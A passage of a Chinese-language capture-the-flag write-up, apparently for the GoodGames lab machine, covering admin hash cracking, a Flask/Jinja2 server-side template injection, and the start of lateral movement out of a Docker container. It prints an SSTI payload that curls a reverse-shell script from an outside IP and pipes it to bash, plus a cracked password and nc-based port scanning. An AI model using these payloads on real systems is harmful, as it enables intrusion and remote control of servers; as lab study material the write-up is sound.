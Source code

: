 获取 admin 用户的 MD5 密码 hash：

![图片](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711962955-c068484d0e8540f6cd627a997140ecb1.png)

在免费的 MD5 解密网站中匹配到明文密码，使用该密码成功登录新系统。

```plain
2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator
```

![图片](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711962955-85a513acf34ca6837764457739cf5a68.png)

### SSTI

因为已知 Web 应用使用的是 **Flask**，尝试验证是否存在 **SSTI**，随后在 `settings` 功能中找到该漏洞的发生位置。

![图片](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711962955-142ff626d365332d3493a43afb0c3cf5.png)

## 立足点（Foothold）

> https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

参考文中出现的 payload 语句，进行构造实现 RCE 执行，成功获取目标服务器立足点：

![图片](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711962955-47fed8a43172682ba608881b8bf43a0a.png)

```plain
{{request.application.__globals__.__builtins__.__import__('os').popen('curl IP/revshell | bash').read()}}
```

![图片](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711962955-8c3256c998abdfe133ebd039720dd7c9.png)

## 横向移动（Lateral Movement）

一看权限 root 很高兴以为完成了这个靶机，可是只找到 user flag，说明当前 shell 可能是在 Docker 中。使用 `ip` 命令简单查询了下，果然 `172.19.0.1` 才是宿主机。

```plain
ip -4 addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default  link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

通过 wget 简单传递一个编译好的 nc 到容器里，对宿主机进行端口扫描发现开放了两个端口。

![图片](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/1711962955-40d62de46504b1145cffc5cca7454089.png)

通过 curl 请求了下宿主机的 80 端口，发现返回的 title 对应的就是 goodgames.htb 站点。
